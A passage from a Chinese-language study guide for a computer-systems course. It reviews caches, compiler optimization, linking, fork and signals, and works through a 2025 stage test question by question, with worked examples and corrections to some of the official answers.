二路组相联时 b = 2、s = 1、t = 3，八个地址仍然都落在第 0 组，但这一组能同时放两块。访问 0、17 装入 M[0–3] 和 M[16–19]，接下来的 1、18 都命中；访问 33 时组已满，按 LRU 换出最久未用的 M[0–3]，此后的 2、16、35 又各自把对方换出。结果是 2 次命中、6 次不命中。相联度提高减少了冲突不命中，但三个块挤在一个两行的组里，冲突仍然存在；换成全相联（S = 1，E = 4），就只剩 3 次冷不命中。这个对比说明了“冲突不命中”的含义：问题不在缓存太小，而在映射太集中。
⚠ 第 13 讲的易错点
第一，组号取地址的中间 s 位，不是最低位，也不是最高位；块偏移在最低的 b 位。第二，Block 一列写块的完整范围，起始地址是把访问地址的低 b 位清零，例如访问 50 时块是 Mem[48–51]。第三，写分配、写回只影响写操作，读访问的模拟与它们无关；题目全是读访问时，不要被写策略干扰。第四，2025 年第 17 题的官方答案写“2 次命中、4 次不命中”，按题目给的初始状态逐次模拟应为 1 次命中、5 次不命中，详见 4.5 节，做题时以自己的逐次模拟为准。
3.6 第 14 讲：程序优化#
第 14 讲在阶段测验里多以简答出现，最常见的是“编译器优化的两个妨碍因素，分别说明原因”。答这道题要写出两层意思。过程调用之所以妨碍优化，是因为函数可能有副作用（修改全局变量或静态变量、做输入输出），而且相同参数的两次调用可能返回不同的结果，编译器在只看到调用点的情况下无法确认这些，只能老老实实地每次都调用。内存别名之所以妨碍优化，是因为两个看起来不同的指针可能指向同一个内存位置，而 C 语言允许、也不检查这种情况，编译器只能假设写一个位置可能改变另一个位置的值，于是每次都要重新从内存读取。2025 年第 19 题的评分正是这两层各 1 分。
另一类题是读代码、判断它属于哪种优化或者 CPE 大约是多少。常见的优化有四种：代码移动（把循环中不变的计算移到循环外，例如把 strlen(s) 提出循环条件）、强度削减（用加法代替乘法，例如把 i*n 改成每次加 n）、公共子表达式（相同的计算只做一次）、用局部变量累加（消除每次迭代对 *dest 的读写）。CPE 的判断依靠 2.3 节的两个界限：一条累加链的 CPE 不会低于这种运算的延迟；把累加拆成 k 条互相独立的链之后，CPE 大约是延迟除以 k，直到碰上吞吐量界限为止。
例 3.6 循环展开为什么要多个累积变量
对一个 double 数组求积，浮点乘法的延迟是 5 个周期，乘法器每周期可以开始两次乘法（吞吐量界限 0.5）。普通写法 acc = acc * d[i] 每次乘法都要等上一次的结果，CPE 约为 5。只做 2×1 展开，写成 acc = (acc * d[i]) * d[i+1]，每处理两个元素要依次做两次乘法，关键路径没有缩短，CPE 仍约为 5，省下的只是循环控制的开销。改成 2×2 展开，用 acc0、acc1 两个累积变量分别累乘偶数位和奇数位的元素，最后再相乘，两条链可以交替进行，CPE 约降到 2.5；或者用重新结合的写法 acc = acc * (d[i] * d[i+1])，括号里的乘法不依赖 acc，可以提前算好，关键路径上每两个元素只有一次乘法，CPE 同样约为 2.5。要继续逼近 0.5，需要更多的累积变量。
⚠ 第 14 讲的易错点
第一，“过程调用”这一条的要点是副作用和返回值不确定，不是“调用有开销”；只答函数调用要花时间会被判错。第二，循环展开本身只减少循环控制的开销，真正降低 CPE 的是打破顺序相关：多个累积变量或重新结合，二者缺一不可。第三，重新结合对整数运算总是安全的，对浮点数可能改变结果（浮点加法和乘法不满足结合律），编译器因此不会自动对浮点数做这种变换。
3.7 第 15 讲：链接#
链接的第一类题是判断符号。给一段代码，问哪些名字在符号表里，或者每个名字是全局、外部还是局部，强还是弱。做法是逐个名字套 2.4 节的四种身份。下面的 m.c 包含了所有常见情形：
#include <stdio.h>
#define K 3
static int cnt = 1;
int total;
extern int limit;
int f(int x);
static int g(int y)
{
static int calls;
calls++;
return y + limit;
}
int main(void)
{
int v = f(cnt) * K;
total = g(v);
printf("%d\n", total);
return 0;
}用 gcc -O0 -c m.c 编译后，nm 列出的符号是：calls.0（b，局部，.bss）、cnt（d，局部，.data）、f（U）、g（t，局部，.text）、limit（U）、main（T，全局，.text）、printf（U）、total（B，全局，.bss）。逐个对照：cnt、g 和函数内的静态变量 calls 都是 static，是局部符号，分别在 .data、.text、.bss（calls 的名字被编译器加了后缀以免重名）；total 是未初始化的全局变量，按课件的传统规则是弱符号，在 COMMON 伪节中（加 -fcommon 编译时 nm 显示为 C；gcc 10 起默认放进 .bss，显示为 B）；main 是全局强符号；f、limit、printf 只被引用，是外部符号（U）；v、x、y 是局部变量和参数，K 是宏，stdio.h、int 都不是符号，它们都不在符号表里。2025 年第 20 题就是这类题的选择题版本。
第二类题是强弱符号与链接结果，第三类题是重定位，第四类题是静态库的命令行顺序。重定位题有两种问法：一种像 2025 年第 21 题那样，问 .o 中为什么某个地址或偏移是 0（答“地址在编译时未知，先填 0，由链接器根据重定位条目填入”）；另一种给出各段的地址，要求算出填入的值。
例 3.7 PC 相对重定位的计算
2025 年第 21 题中，main.o 的 call 指令在 main 内偏移 0x19 处，操作码 e8 之后的 4 字节在偏移 0x1a，重定位条目指向 sum，加数为 −4。设链接后 main 的地址是 0x401126，sum 的地址是 0x401150，填入的值是多少？
被修改的位置是 refaddr = 0x401126 + 0x1a = 0x401140。按 PC 相对的公式，填入 sum 的地址 + 加数 − refaddr = 0x401150 − 4 − 0x401140 = 0xc，按小端序存放为 0c 00 00 00。注意填入的值是 32 位有符号补码，执行时符号扩展：若目标在前（例如 0x401100），算得 −0x44，以补码 0xFFFFFFBC 存放。验算一下：call 指令占 5 字节，下一条指令的地址是 0x401126 + 0x1e = 0x401144，0x401144 + 0xc = 0x401150，正是 sum。在 .o 中这 4 个字节是 0，反汇编时 call 的目标被显示成“下一条指令的地址 + 0”，也就是 1e，这就是第 21 题（2）那条“看起来跳到下一条指令”的 call 的由来。
⚠ 第 15 讲的易错点
第一，static 的局部变量（函数内的 static 变量）有符号表条目，是局部符号；非 static 的局部变量和参数没有条目。第二，只声明、未定义的名字（extern 变量和函数原型）在符号表里是外部符号 UND；往年期末题的答案按课件 p.22 把这类符号记作“弱”，答题时按这个口径。第三，宏、类型名、头文件名、关键字都不是符号；include 是预处理指令，也不是符号。第四，静态库只解析扫描到它时尚未解析的引用，库必须写在引用它的 .o 之后，库之间互相引用时可能要写两次；共享库与此相同。第五，PC 相对的值是相对于下一条指令的地址，所以公式里有加数 −4，不要忘记减 4。
3.8 第 16 讲：异常与进程#
异常题的核心是四类异常的返回行为（2.5 节）。2025 年第 22 题问：如果除以零是故障类异常，能不能在处理程序里把结果改成某个特殊值，然后继续执行后面的指令？答案是不能，因为故障处理程序返回后要重新执行引起故障的那条除法指令，它会再次除以零、再次触发异常，所以只能终止进程。这道题的评分说明写着“如果一开始的结论就不对，后面如何解读都不得分”，结论必须先写对。同类的问题还有：缺页处理后返回到哪里（当前指令，重新执行一次）；系统调用返回到哪里（下一条指令）；哪些是中断（I/O 完成、定时器、Ctrl-C 产生的键盘中断）；陷阱是同步的还是异步的（同步）。
fork 题是这一组里分值最高的。数输出行数时，先确定共有几个进程、每个进程执行哪些 printf，再加起来；进程数可以画一棵进程树，每次 fork 让执行到它的进程数翻倍。判断某个输出是否可行时，画出进程图，看是否存在一种拓扑排序与之一致：同一进程内的输出按程序顺序排列，wait 增加一条“子进程终止之后”的边，不同进程之间没有其他约束。判断不可行时，找出一对“图中要求 A 在 B 之前、而输出中 B 在 A 之前”的输出即可。
例 3.8 fork 与 wait
下面的程序共输出几行？A B C D B D D、A B D C D B D 两个输出是否可能？
int main(void)
{
printf("A\n");
if (fork() == 0) {
fork();
printf("B\n");
} else {
wait(NULL);
printf("C\n");
}
printf("D\n");
return 0;
}最初的进程 P 打印 A 后 fork 出 C1。P 走 else 分支，等待 C1 终止后打印 C 和 D。C1 再 fork 出 C2，C1 和 C2 各打印 B 和 D。所以共 1 + 2 + 2 × 2 = 7 行。约束有三条：A 在最前；每个子进程的 B 在它自己的 D 之前；P 的 C 必须在 C1 打印完 B、D 并终止之后。C2 是 C1 的子进程，P 的 wait 并不等它。第一个输出 A B C D B D D 中，C 前面只有一个 B，没有任何 D，C1 不可能已经终止，所以不可能。第二个输出 A B D C D B D 可以这样实现：C1 打印 B、D 后终止，P 打印 C、D，最后 C2 才打印 B、D，所以可能。用第 16 讲 16.9 节的枚举程序验证，这个程序共有 6 种可行输出，第二个在其中，第一个不在。
⚠ 第 16 讲的易错点
第一，wait(NULL) 只等待调用者自己的一个子进程，孙进程不受它约束。第二，父子进程的变量是各自的副本，子进程里的 x += 1 不影响父进程的 x；数输出时要分别跟踪每个进程的变量值。第三，“B 和 C 哪个先输出”这类问题，只要两者之间没有约束，答案就是“不确定”，不要根据“父进程通常先运行”作答。第四，printf 之后紧接着 fork、而输出又没有换行或被重定向到文件时，缓冲区里的内容会被复制，输出行数会多出来（第 16 讲 16.13 节）；考题一般默认输出到终端、以换行结尾，按每个 printf 输出一次计算。第五，退出状态只保留低 8 位：exit(256) 读到 0，exit(−1) 读到 255。
3.9 第 17 讲：信号与非本地跳转#
第 17 讲在测验前几天才讲，没有单独的研讨题，2025 年的同一次测验也没有出信号题。如果出题，最可能是概念性的选择、判断或简答，或者一道“可能的输出有哪些”的小题。下面几条是往年期末题反复出现、也最容易答错的结论，完整的讲解和实测在第 17 讲讲义中。
信号的发送和接收是分开的两步。发送是内核把目的进程 pending 位向量的对应位置 1；接收发生在目的进程下一次从内核模式返回用户模式时，内核计算 pnb = pending & ~blocked，从最小的编号开始，对每个非零位执行默认行为或处理程序（第 17 讲 17.4 节）。因为每种信号只有一位，同一种信号在被接收之前无论到达多少次，都只算一次，所以不能用信号来计数：子进程向父进程连续发送两次 SIGUSR1，父进程的处理程序可能只执行一次（17.9 节，fork14 实测只回收了 5 个子进程中的 2 个）。阻塞不等于丢弃：被阻塞的信号保持待处理状态，解除阻塞后立即被接收。
处理程序与主程序并发执行，可能在主程序的任意两条指令之间插入；处理程序运行时，同一种信号被隐式阻塞，不同的信号仍可以打断它，形成嵌套（17.6、17.7 节）。处理程序应当遵守 G0–G5：尽量简单；只调用异步信号安全的函数（write、_exit、waitpid、kill、sleep 是，printf、malloc、exit 不是）；进入时保存、退出时恢复 errno；访问共享的全局数据时暂时阻塞所有信号；全局变量用 volatile，标志用 volatile sig_atomic_t（17.8 节，实测不加 volatile 的标志在 -O2 下永远读不到）。shell 回收子进程的正确做法，是在 SIGCHLD 处理程序里用 while ((pid = waitpid(-1, &status, WNOHANG)) > 0) 循环回收所有已终止的子进程，正是因为多个 SIGCHLD 可能合并成一个。
两个固定的写法也常被问到“为什么”。一是在 fork 之前阻塞 SIGCHLD、addjob 之后再解除，保证处理程序的 deletejob 一定在 addjob 之后（17.10 节）。二是用 sigsuspend 等待信号：while (!pid) pause(); 有竞争，信号若落在检查 pid 之后、pause 之前，pause 就要等下一个信号；sigsuspend(mask) 原子地用 mask 替换阻塞集合并睡眠，消除了这个窗口（17.11 节）。非本地跳转中，setjmp 保存寄存器、栈指针和返回地址，第一次返回 0；longjmp 恢复它们，让 setjmp 再返回一次，返回值是 longjmp 的第二个参数；只能跳到尚未返回的函数中；在处理程序中跳转要用 sigsetjmp(buf, 1) 和 siglongjmp，否则正在处理的信号会一直被阻塞（17.12 节）。
例 3.9 信号不排队
下面的程序可能输出什么？
volatile sig_atomic_t n = 0;
void handler(int sig) { n++; }
int main(void)
{
signal(SIGUSR1, handler);
pid_t pid = fork();
if (pid == 0) {
kill(getppid(), SIGUSR1);
kill(getppid(), SIGUSR1);
exit(0);
}
waitpid(pid, NULL, 0);
printf("%d\n", n);
return 0;
}输出 1 或 2，不可能是 0。两个 SIGUSR1 可能被父进程分别处理，也可能在父进程处理第一个之前都已到达，合并成一个待处理位。父进程至少处理一次：它从 waitpid 返回用户模式之前，一定会接收待处理的 SIGUSR1，所以 printf 读到的 n 至少是 1。默认环境上运行 1000 次，1 出现 975 次，2 出现 25 次。
⚠ 第 17 讲的易错点
第一，SIGKILL 和 SIGSTOP 两个信号既不能被捕获，也不能被忽略，不是只有 SIGKILL 一个。第二，进程检查待处理信号的时刻是从内核模式切换回用户模式时，不是“随时”，也不是进入内核时。第三，Ctrl-C 发送 SIGINT，Ctrl-Z 发送 SIGTSTP，它们都发给前台进程组中的每个进程，而不只是一个进程。第四，kill 函数的 pid 为 0 时，信号发给调用者所在进程组的每个进程；pid 小于 −1 时，发给进程组 −pid 中的每个进程。第五，sigprocmask 的 SIG_BLOCK 是“加入”，SIG_SETMASK 是“替换”；sigsuspend 是用 mask 替换阻塞集合，课件 p.62 的等价写法中第一行应是 SIG_SETMASK。第六，setjmp 调用一次、可能返回多次，longjmp 调用一次、从不返回，这与 fork“调用一次、返回两次”、execve“调用一次、正常情况下不返回”一起，是第 16、17 讲的“调用与返回”小结。
第四部分 2025 年第 2 次阶段测验逐题解析#
表 5 是全卷的答案速查。“官方答案”一列照录卷面答案；有三道题的官方答案与课件定义不一致，“按课件应为”一列给出重新演算的结果，理由在对应的小节中说明。
表 5 2025 年第 2 次阶段测验答案速查
| 题号 | 考点 | 官方答案 | 按课件应为 |
|---|---|---|---|
| 1 | ISA 规定的内容 | ABCFG | |
| 2 | 访存指令为何用 rB 算地址 | 地址都经 rB 的通路计算，电路简单 | |
| 3 | HCL 补电路 | 位相等、位选择器 | |
| 4 | 时序图 | 1 4 9 7 16 27 | |
| 5 | popq 的阶段表 | 见 4.2 节 | |
| 6 | aluA | −8、8；IOPQ、IRMMOVQ、ICALL、−8、IRET、8 | |
| 7 | 流水线延迟与吞吐 | 340、180、420、60 | 540、180、420、60 |
| 8 | 转发 | D、M、2 | |
| 9 | 加载/使用 | mrmovq 后紧跟使用；不能完全靠转发解决 | |
| 10 | 加载/使用与 ret | mrmovq 0(%rdx),%rsp；ret | |
| 11 | SRAM 与 DRAM | SRAM、DRAM | |
| 12 | ROM | 错 | |
| 13 | 内存条 | 分散在 8 颗芯片，每颗 8 位 | |
| 14 | SSD | ABCD | |
| 15 | 局部性 | 指令、数据各有时间与空间局部性 | |
| 16 | 三种不命中 | 冷、容量、冲突 | |
| 17 | 直接映射缓存 | 2 次命中、4 次不命中 | 1 次命中、5 次不命中 |
| 18 | i7 的 L2 | C（256 KB） | |
| 19 | 优化的两个妨碍因素 | 副作用与返回值不定；别名 | |
| 20 | 链接器解析的符号 | ADEG | DEG |
| 21 | 重定位 | 数组地址、链接器重定位；PC 相对偏移 | |
| 22 | 除以零的故障 | 不可以 | |
| 23 | fork 计数 | 3 次；不确定；是 | |
| 24 | fork 与 wait | 3；6；D |
4.1 第 9 讲（12 分）#
1（不定项选择，2 分）以下描述，哪些属于 ISA 规定的内容？
A. 有 15 个通用寄存器，每个寄存器 64 位 B. 有 3 个条件码，分别是 ZF、SF、OF C. 过程调用指令（call）会将下一条指令地址压入栈中 D. 过程调用的前 2 个参数放在寄存器 rdi、rsi E. 过程调用返回值放在寄存器 rax F. 内存是字节寻址的，字节序采用小端法 G. 访存指令支持寄存器加偏移的寻址模式
答案
ABCFG
ISA 规定程序员可见的状态和每条指令的语义。A、B 是可见状态（Y86-64 有 15 个寄存器、3 个条件码），F 是内存模型，C、G 是指令语义，都属于 ISA。D、E 是调用约定：硬件并不关心参数放在哪个寄存器，这是编译器和库之间的约定，换一套约定，同样的硬件照样运行。最容易误判的是 C：它和 D、E 一样讲“过程调用”，但它描述的是 call 这条指令做什么，属于 ISA。
2（2 分）Y86-64 中的这两条指令（见下面的代码框），第 2 条为什么不设计成 mrmovq D(rA),rB？这样都是 rA 在前、rB 在后，看起来更加规整。
rmmovq rA,D(rB)
mrmovq D(rB),rA答案
两条指令的内存地址都由 rB 加偏移算出，硬件只需要一条“读 rB 到 valB、valB + valC 算地址”的通路，电路更简单。
SEQ 的译码阶段把 rB 读到 valB，执行阶段算 valB + valC。如果 mrmovq 改用 rA 算地址，就要再接一条“valA + valC”的通路，或者在 ALU 的输入端增加选择，凭空多出电路。把地址固定放在 rB，就是让“地址从哪里来”与指令无关。
3（各 3 分，共 6 分）根据 HCL 表达式补全电路图。
（1）bool eq = (a&&b)||(!a&&!b)
（2）bool out = (s&&a)||(!s&&b)
图 1 第 3 题（1）卷面给出的待补全电路
图 2 第 3 题（2）卷面给出的待补全电路
答案
（1）a、b 各接一个与门的两个输入；a、b 各经过一个非门后接第二个与门；两个与门的输出接或门，输出 eq。（2）s 与 a 接第一个与门；s 经过非门后与 b 接第二个与门；两个与门的输出接或门，输出 out。
表达式的结构就是电路的结构：每个 && 是一个与门，每个 ! 是一个非门，最外层的 || 是或门。卷面已经画好了部分连线（例如 (1) 中 a 已经接到第一个与门、并引出一个非门），补全时只要让连线与表达式逐项对应。（2）是课件的位选择器，s = 1 时输出 a，s = 0 时输出 b。
4（2 分）根据下面的电路图，补全时序图里 Out 信号的值（In、Out 均用十进制表示）。
图 3 第 4 题的电路
图 4 第 4 题的时序图（Out 一行待填）
答案
1 4 9 7 16 27
推导见 3.1 节例 3.1：Load 为 1 的周期存入 In，Load 为 0 的周期存入 Out + In，寄存器只在上升沿更新。
4.2 第 10 讲（16 分）#
5（8 分）Y86-64 的 popq 指令编码为 b 0 rA 8（两个字节）。根据 popq 指令的操作，补全下表（共需填 8 行 9 空）。
表 6 第 5 题卷面上的阶段表（方括号、括号和空行处待填）
| 阶段 | popq rA |
|---|---|
| Fetch | icode:ifun ← M1[PC] |
| rA:rB ← M1[ ] | |
| （空行） | |
| valP ← PC+2 | |
| Decode | valA ← R[ ] |
| valB ← R[ ] | |
| Execute | valE ← （ ） + （ ） |
| （空行） | |
| Memory | （ ） ← M8[valA] |
| Write back | R[ ] ← valE |
| R[ ] ← valM | |
| PC update | PC ← （ ） |
答案
取指：icode:ifun ← M1[PC]；rA:rB ← M1[PC+1]；valP ← PC+2。译码：valA ← R[%rsp]；valB ← R[%rsp]。执行：valE ← valB + 8。访存：valM ← M8[valA]。写回：R[%rsp] ← valE；R[rA] ← valM。更新 PC：PC ← valP。
popq 的指令格式是“b0 rA F”，只有寄存器字节，所以取指读 rA:rB、valP 加 2。它要读栈顶的值并把栈指针加 8：栈指针要读两份，valA 用作读内存的地址（旧栈顶），valB 送进 ALU 加 8。访存用的是 valA 而不是 valE，这是 popq 与 pushq 的关键区别。写回两个寄存器，顺序上先写 %rsp 再写 rA，所以 popq %rsp 的结果是从栈中读出的值。
6（8 分）下面是 SEQ 处理器中 ALU 的 A 口输入端信号（aluA）生成逻辑的分析，只列出了部分指令。根据各指令的功能，并参考已经给出的信息，补全空缺：下表中 call、ret 两行的 2 空，以及 HCL 代码中的 6 空。
表 7 第 6 题给出的各指令执行阶段（括号处待填）
| 指令 | Execute |
|---|---|
| OPq rA, rB | valE ← valB OP valA |
| cmovXX rA, rB | valE ← 0 + valA |
| rmmovq rA, D(rB) | valE ← valB + valC |
| popq rA | valE ← valB + 8 |
| jXX Dest | （无） |
| call Dest | valE ← valB + （ ） |
| ret | valE ← valB + （ ） |
int aluA = [
icode in { IRRMOVQ, ______ } : valA;
icode in { IIRMOVQ, ______, IMRMOVQ } : valC;
icode in { ______, IPUSHQ } : ______;
icode in { ______, IPOPQ } : ______;
# Other instructions don't need ALU
];答案
表格：call 是 valE ← valB + (−8)，ret 是 valE ← valB + 8。HCL：icode in { IRRMOVQ, IOPQ } : valA;、icode in { IIRMOVQ, IRMMOVQ, IMRMOVQ } : valC;、icode in { ICALL, IPUSHQ } : -8;、icode in { IRET, IPOPQ } : 8;
把卷面给出的各条指令执行阶段并排，ALU 的 A 口取 valE 公式中“加号右边”或“OP 右边”的那一项：OPq 和 cmovXX 是 valA，rmmovq（以及 irmovq、mrmovq）是 valC，call 和 pushq 是 −8，ret 和 popq 是 8。jXX 不使用 ALU，所以不出现在 HCL 中。
4.3 第 11 讲（16 分）#
7（4 分）三级流水线的组合逻辑 A、B、C 分别为 40、160、80 ps，每个流水线寄存器 20 ps。单条指令的延迟是多少？满负荷时每多少 ps 完成一条指令？如果理想化地进一步细分成均衡流水线（不跨现有流水级重排电路、也不过度细分），延迟和每条指令的时间又各是多少？
答案
官方答案：340、180、420、60。按课件定义，原设计的延迟应为 540 ps，其余三空相同。
图 5 画出了两种划分。原设计三级的时间分别是 40 + 20、160 + 20、80 + 20 ps，时钟周期由最慢的一级决定，是 180 ps，所以满负荷时每 180 ps 完成一条指令。一条指令要依次经过三级，每级都要占满一个周期，延迟是 3 × 180 = 540 ps。课件 p.9（2025 版 p.8）的不均匀划分例子正是这样计算的：50、150、100 ps 三级，周期 170 ps，延迟 3 × 170 = 510 ps，而不是 50 + 150 + 100 + 60 = 360 ps。官方答案的 340 ps 是把各级组合逻辑和寄存器的时间直接相加，这是信号走完全部电路的时间，但在流水线中，A 级算完后要等到下一个时钟上升沿才能交给 B 级，这段等待不能省略。
图 5 2025 年第 7 题：（a）原设计三级，周期 180 ps；（b）按 40 ps 均匀切开后七级，周期 60 ps
细分时最小的一段是 A 的 40 ps，题目要求不跨级重排、也不过度细分，于是把 B 切成 4 段、C 切成 2 段，每段 40 ps，共 7 级，每级 40 + 20 = 60 ps。此时周期 60 ps，延迟 7 × 60 = 420 ps。这一问用两种算法都得 420，所以与官方答案一致。考试时遇到第一空，建议按课件定义写 540 ps，并在旁边用一句话写明算法（“3 级 × 180 ps”），以免被误判。
8（6 分）阅读下面这段 Y86-64 汇编代码。当这段代码在 PIPE 处理器上运行时，当 addq 指令在流水级 ____ 阶段时，会检测到数据冒险。此时运用了数据前递技术，其中在流水级 ____ 阶段的指令前递数据 ____ 作为操作数 %rax 的值。
1 irmovq $1,%rax
2 irmovq $2,%rax
3 irmovq $3,%rdx
4 addq %rax,%rdx答案
D（译码）阶段；M 阶段；2
addq 在 D 级读源寄存器时检测冒险。此时 irmovq $3 在 E 级，irmovq $2 在 M 级，irmovq $1 在 W 级。M 级和 W 级的指令都写 %rax，按优先级取较新的 M 级，值是 M_valE = 2。%rdx 则从 E 级的 e_valE = 3 得到。
9（4 分）写出一段存在加载/使用相关的 Y86-64 汇编代码，并说明能否用数据前递技术解决，为什么？
答案
mrmovq 0(%rdx), %rax 后紧跟 addq %rbx, %rax。不能只靠前递解决：addq 在译码阶段就要用 %rax，而此时 mrmovq 还在执行阶段，要再过一个周期到访存阶段才读出数据；必须暂停一个周期，之后再用 m_valM 前递。（回答“可以部分解决”也算对。）
10（2 分）写出一段存在加载/使用相关和 ret 组合的 Y86-64 汇编代码。
答案
mrmovq 0(%rdx), %rsp 后紧跟 ret。
关键是加载的目的寄存器必须是 %rsp，因为 ret 要读 %rsp 来找返回地址，这样 ret 既是加载/使用冒险的使用者，又要触发 ret 的处理，这就是 2.1 节的组合 B。Arch Lab 讲义中 grader 的 ret-hazard.ys 测试程序就是这两行。
4.4 第 12 讲（14 分）#
11（2 分）对比同样容量的 SRAM 和 DRAM，功耗更高的是____，价格更低的是____。
答案
SRAM；DRAM
12（判断，2 分）ROM 是只读存储器的简称，是非易失性存储器，掉电不会丢失数据，只能读不能写。
答案
错
前半句正确，错在“只能读不能写”：PROM 可以编程一次，EPROM、EEPROM 和闪存都可以擦除后重写。判断题中出现“只能”“一定”“总是”这类绝对的词时，要特别检查有没有例外。
13（4 分）一根 DDR3 内存条数据位宽 64 位，容量 2 GB，由 8 颗内存芯片构成。系统只有这根内存条，往地址 0x01001000 写一个 64 位数 0x12345678，这个数放在从左数第几颗芯片中？解释原因。
答案
分散在全部 8 颗芯片中，每颗芯片存 8 位。每颗芯片的数据位宽只有 8 位，8 颗芯片并行，一次就能读写 64 位，速度最快。（写成分散在 4 颗、每颗 16 位，也算对。）
题中的地址只是干扰：无论哪个地址，一个对齐的 64 位字都按字节分到 8 颗芯片的同一个超单元。得分点是“分散”和“并行以提高带宽”这两层意思。
14（不定项选择，2 分）机械硬盘和 SSD 对比，在主流产品形态下，属于后者特点的是：A. 速度快 B. 抗震耐摔 C. 运行噪音小 D. 体积小 E. 同样容量的价格更低 F. 支持写入的寿命更长
答案
ABCD
SSD 没有机械部件，所以快、抗震、无噪音、体积小；但同样容量的价格高于机械硬盘，闪存块的擦写次数有限，寿命比机械硬盘短。
15（4 分）下面这段代码哪些地方体现了局部性原理？分别体现了什么类型的局部性。
int sum_array_rows(int a[M][N])
{
int i, j, sum = 0;
for (i = 0; i < M; i++)
for (j = 0; j < N; j++)
sum += a[i][j];
return sum;
}答案
共四处，各 1 分：循环体指令顺序执行，是指令的空间局部性；循环体反复执行，是指令的时间局部性；sum 等变量反复读写，是数据的时间局部性；数组 a 按地址顺序访问，是数据的空间局部性。
4.5 第 13 讲（16 分）#
16（6 分）高速缓存的三种不命中是什么？分别说明出现的场景。
答案
冷不命中（强制性不命中）：第一次访问某个块，缓存中还没有它。容量不命中：程序的工作集超过了缓存的容量。冲突不命中：缓存并未装满，但多个块映射到同一组而互相替换。
17（8 分）有一个计算机系统，存储地址空间为 64 字节；采用直接映射（direct-mapped）的数据高速缓存，容量为 16 字节；每个高速缓存块为 4 字节；采用写分配（write-allocate）、写回（write-back）策略。Cache 的当前状态如下表。经过如下地址访问序列后（十进制表示，每次访问 1 个字节）：18 40 50 16 43 48，在表中更新 Cache 的状态。这个序列过程中，该高速缓存发生 ____ 次 Hit 和 ____ 次 Miss。
表 8 第 17 题中 Cache 的初始状态
| 组 | v | Tag | Block |
|---|---|---|---|
| set0 | |||
| set1 | 1 | 01 | Mem[4-7] |
| set2 | |||
| set3 |
答案
最终状态：set0 为 1、11、Mem[48–51]；set1 为 1、00、Mem[4–7]；set2 为 1、10、Mem[40–43]；set3 无效。官方答案的次数是 2 次命中、4 次不命中，按逐次模拟应为 1 次命中、5 次不命中。
m = 6，B = 4 得 b = 2，S = 16 ÷ 4 = 4 得 s = 2，t = 2。先看初始状态：Mem[4–7] 的地址是 000100–000111，标记应为 00，卷面印的 01 是笔误，官方答案已经把它改成 00（这一组在后面的访问中没有用到，不影响结果）。表 9 逐次列出了六次访问。
表 9 2025 年第 17 题的逐次模拟
| 访问 | 二进制 | 组 | 标记 | 结果 | 访问后该组的内容 |
|---|---|---|---|---|---|
| 18 | 01 00 10 | 0 | 01 | 不命中（冷） | Mem[16–19] |
| 40 | 10 10 00 | 2 | 10 | 不命中（冷） | Mem[40–43] |
| 50 | 11 00 10 | 0 | 11 | 不命中（冷） | Mem[48–51]，替换 Mem[16–19] |
| 16 | 01 00 00 | 0 | 01 | 不命中 | Mem[16–19]，替换 Mem[48–51] |
| 43 | 10 10 11 | 2 | 10 | 命中 | Mem[40–43] |
| 48 | 11 00 00 | 0 | 11 | 不命中 | Mem[48–51]，替换 Mem[16–19] |
只有 43 命中。16 和 48 都与此前访问过的块相同，但中间都被第 0 组的另一块换了出去，所以都是冲突不命中：18、50、16、48 属于 Mem[16–19] 和 Mem[48–51] 两个块，它们都映射到第 0 组，而第 1、3 组整个过程都没有用上。官方答案的最终状态表与上面一致，只有次数不同；按状态表本身也能推出：第 0 组先后装入了四次块，第 2 组装入一次，共 5 次不命中。用模拟程序逐次核对，结果相同。
18（2 分）Intel Core i7 CPU 的 L2 Cache 容量，最有可能是：A. 4 kB B. 32 kB C. 256 kB D. 8 MB
答案
C
课件中 Core i7 的层次是：每核 32 KB 的 L1 数据缓存、256 KB 的 L2，所有核共享 8 MB 的 L3。B 是 L1，D 是 L3。
4.6 第 14、15 讲（14 分）#
19（4 分）编译优化时会有两种限制情况，分别解释说明原因：（1）为什么有“过程调用”限制？（2）为什么有“存储器别名”限制？
答案
（1）过程调用可能有副作用，例如改变全局变量或静态变量的值；即使参数相同，返回值也可能不同。（2）两个看起来不同的内存引用可能指向同一个位置；C 语言允许这样的情况存在，也不检查。
两小问各有两个得分点，答案的写法见 3.6 节。
20（不定项选择，2 分）下面这段代码中，属于链接器要解析的符号包括：A. include B. stdio.h C. int D. cnt E. print_value F. x G. main H. val
#include <stdio.h>
int cnt = 10;
extern void print_value(int x);
int main() {
int val = 5;
print_value(val + cnt);
return 0;
}答案
官方答案 ADEG。按符号的定义应为 DEG。
cnt 是已初始化的全局变量（强符号），main 是全局函数（强符号），print_value 是外部符号，链接器要在别的模块中找到它的定义，这三个都是链接器要解析的符号。x 是函数原型中的参数名，val 是局部变量，都不进符号表；int 是关键字，stdio.h 是头文件名，它们在预处理和编译阶段就已经处理完了。A 的 include 是预处理指令，同样不是符号，官方答案中的 A 应是笔误。
21（8 分）下面是一段 C 代码 main.c 和对应目标文件 main.o 反汇编得到的代码。
（1）地址 14 对应的 mov 指令，为什么要把 0 放到 edi 寄存器中？按源代码看，应该是要放什么数，这里为什么是 0，后续还会有什么操作？
（2）地址 19 对应的 callq 指令，看起来会转到地址 1e，即下一条指令，这不合常理，为什么？
int array[2] = {1, 2};
int main(int argc, char** argv){
int val = sum(array, 2);
return val;
}0000000000000000 <main>:
0: 55 push %rbp
1: 48 89 e5 mov %rsp,%rbp
4: 48 83 ec 20 sub $0x20,%rsp
8: 89 7d ec mov %edi,-0x14(%rbp)
b: 48 89 75 e0 mov %rsi,-0x20(%rbp)
f: be 02 00 00 00 mov $0x2,%esi
14: bf 00 00 00 00 mov $0x0,%edi
19: e8 00 00 00 00 callq 1e <main+0x1e>
1e: 89 45 fc mov %eax,-0x4(%rbp)
21: 8b 45 fc mov -0x4(%rbp),%eax
24: c9 leaveq
25: c3 retq答案
（1）应当放数组 array 的首地址；编译成目标文件时 array 的地址还不确定，所以先用 0 代替；之后由链接器进行重定位，填入正确的地址。（2）callq 要跳转到 sum 的起始地址；编译时 sum 的位置不确定，偏移量先填 0；callq 中保存的是目标地址与下一条指令地址的差，差为 0 时反汇编就显示成下一条指令的地址 1e。
两小问的得分点在答案中已经分开：（1）的“数组首地址”“地址未知用 0 代替”“链接器”“重定位”各 1 分，（2）的“跳转到 sum”“地址未知用 0 代替”各 1 分、“PC 相对编码”2 分。第一处是绝对地址（R_X86_64_32），第二处是 PC 相对偏移（R_X86_64_PLT32），链接后的计算见 3.7 节例 3.7。
4.7 第 16、17 讲（12 分）#
